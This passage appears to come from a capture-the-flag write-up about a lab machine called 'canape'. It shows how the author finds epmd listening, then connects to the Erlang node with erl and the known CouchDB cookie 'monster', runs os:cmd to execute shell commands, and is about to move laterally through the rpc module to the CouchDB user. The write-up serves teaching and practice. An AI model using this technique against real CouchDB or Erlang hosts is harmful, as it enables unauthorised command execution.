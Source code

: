 
We also see that CouchDB is running as homer.

If we look at the ports listening on canape, we see not only both CouchDB
ports, but also that epmd is listening on 4369 (we’ll cheat here and show the
output from a root shell to see the processes):

    
    
    # netstat -nlpt
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN      918/sshd
    tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      815/beam
    tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      815/beam
    tcp        0      0 0.0.0.0:44135           0.0.0.0:*               LISTEN      815/beam
    tcp        0      0 0.0.0.0:34416           0.0.0.0:*               LISTEN      1959/beam
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1058/apache2
    tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      825/epmd
    tcp6       0      0 :::65535                :::*                    LISTEN      918/sshd
    tcp6       0      0 :::4369                 :::*                    LISTEN      825/epmd
    

We can connect to epmd with erl, The Erlang Emulator. We need to give it two
parameters. `-sname` can be anything, just what we are known as in the
cluster. `-setcookie` is the auth from the warning on the CouchDB site. erl
throws an error if our `HOME` variable isn’t set, but that’s easy enough to
fix:

    
    
    www-data@canape:/$ HOME=/ erl -sname 0xdf -setcookie monster
    Eshell V7.3  (abort with ^G)
    (0xdf@canape)1>
    

Erlang has an [os module](http://erlang.org/doc/man/os.html) which can be used
to call system-specific functions. So if we run it here, we get the results
from our current process:

    
    
    (0xdf@canape)1> os:cmd("whoami").
    "www-data\n"
    

Erlang also has an [rpc module](http://erlang.org/doc/man/rpc.html). It has a
call function that takes a node, module, function, and arguments. We can use
that to run commands through the CouchDB process.

If we check our current nodes, it’s empty:

    
    
    (0xdf@canape)2> nodes().
    nodes().
    

When we issue the rpc call, it will actually add the code for us (assuming our
cookie matches):
